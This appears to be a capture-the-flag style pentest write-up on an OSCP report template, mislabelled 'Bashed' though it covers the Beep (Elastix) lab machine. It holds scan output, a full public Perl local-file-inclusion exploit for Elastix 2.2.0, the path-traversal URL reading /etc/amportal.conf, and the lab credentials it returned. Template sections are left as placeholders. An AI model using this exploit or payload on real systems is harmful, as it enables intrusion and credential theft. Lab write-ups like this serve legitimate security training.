





# Pentesting Report - Bashed

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.7

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

First we do a nmap scan of the host:

```
# Nmap 7.91 scan initiated Thu Jan  7 19:03:08 2021 as: nmap -Pn -sC -sV -p- -oA nmap/beep-fulltcp 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.029s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: TOP RESP-CODES LOGIN-DELAY(0) STLS EXPIRE(NEVER) UIDL AUTH-RESP-CODE PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) APOP USER
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: NO Completed UNSELECT NAMESPACE OK URLAUTHA0001 MAILBOX-REFERRALS ACL LITERAL+ IMAP4 IDLE SORT THREAD=REFERENCES RENAME LIST-SUBSCRIBED IMAP4rev1 LISTEXT X-NETSCAPE ID CATENATE ANNOTATEMORE MULTIAPPEND THREAD=ORDEREDSUBJECT SORT=MODSEQ BINARY CONDSTORE RIGHTS=kxte QUOTA UIDPLUS CHILDREN STARTTLS ATOMIC
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-01-07T19:12:23+00:00; +1h05m32s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1h05m31s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  7 19:09:55 2021 -- 1 IP address (1 host up) scanned in 406.70 seconds
```

On browsing to the http/https website we find a Elastix login website:



With Gobuster we find the following directories on the webserver:

```
user@kali:~/hackthebox/hackthebox/beep$ gobuster dir -u https://10.10.10.7/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,html -k -o gobuster/beep-raft-medium.log
===============================================================
Gobuster v3.0.1   
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.7/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s 
===============================================================
2021/01/07 19:28:15 Starting gobuster
===============================================================
/images (Status: 301)
/modules (Status: 301)
/admin (Status: 301)
/themes (Status: 301)
/register.php (Status: 200)
/help (Status: 301)
/config.php (Status: 200)
/var (Status: 301)
/mail (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/libs (Status: 301)
/index.php (Status: 200)
/panel (Status: 301)
/configs (Status: 301)
/recordings (Status: 301)
/vtigercrm (Status: 301)
```

On browsing the admin directory we find an administrative login for FreePBX 2.8.1.4:



On browsing the recording directory we also find an additional login for Voicemail:



The configs directory is an open dir including template config php files:



The var directory is an open dir including an empty backups directory:



The date on the files are an indication we have an old Elastix installation.
Searchsploit show us the vulnerable releases of Elastix:

user@kali:~$ searchsploit elastix 
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                              | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities            | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities      | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                   | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                  | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                 | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution             | php/webapps/18650.py
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

The graph.php Local File Inclusion exploit is here below:

```
#source: https://www.securityfocus.com/bid/55078/info

#Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.

#An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.

#Elastix 2.2.0 is vulnerable; other versions may also be affected. 

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------# 
#Elastix is an Open Source Sofware to establish Unified Communications. 
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;) 
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {
 
print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";
 
}
else { 
print "\n[-] not successful\n";
        }
```

We use the following URL to test the LFI:

```
https://10.10.10.7/vtigercrm//graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We get the amportal.conf file returned in our webbrowser with account + passwords details:

```
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, either version 2 of the License, or
#    (at your option) any later version.
#
#    FreePBX is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License
#    along with FreePBX.  If not, see <http://www.gnu.org/licenses/>.
#
# This file contains settings for components of the Asterisk Management Portal
# Spaces are not allowed!
# Run /usr/src/AMP/apply_conf.sh after making changes to this file

# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

# AMPBIN: Location of the FreePBX command line scripts
# AMPSBIN: Location of (root) command line scripts
#
AMPBIN=/var/lib/asterisk/bin
AMPSBIN=/usr/local/sbin

# AMPWEBROOT: Path to Apache's webroot (leave off trailing slash)
# AMPCGIBIN: Path to Apache's cgi-bin dir (leave off trailing slash)
# AMPWEBADDRESS: The IP address or host name used to access the AMP web admin
#
AMPWEBROOT=/var/www/html
AMPCGIBIN=/var/www/cgi-bin 
# AMPWEBADDRESS=x.x.x.x|hostname

# FOPWEBROOT: Path to the Flash Operator Panel webroot (leave off trailing slash)
# FOPPASSWORD: Password for performing transfers and hangups in the Flash Operator Panel
# FOPRUN: Set to true if you want FOP started by freepbx_engine (amportal_start), false otherwise
# FOPDISABLE: Set to true to disable FOP in interface and retrieve_conf.  Useful for sqlite3 
# or if you don't want FOP.
#
#FOPRUN=true
FOPWEBROOT=/var/www/html/panel
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE

# FOPSORT=extension|lastname
# DEFAULT VALUE: extension
# FOP should sort extensions by Last Name [lastname] or by Extension [extension]

# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE

# AUTHTYPE=database|none
# Authentication type to use for web admininstration. If type set to 'database', the primary
# AMP admin credentials will be the AMPDBUSER/AMPDBPASS above.
AUTHTYPE=database
...
continues (see downloaded file)
...
```

Retrieved credentials:

login: asteriskuser
password: jEhdIekWmdjE

login: admin
password: jEhdIekWmdjE

**Vulnerability Fix:**

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
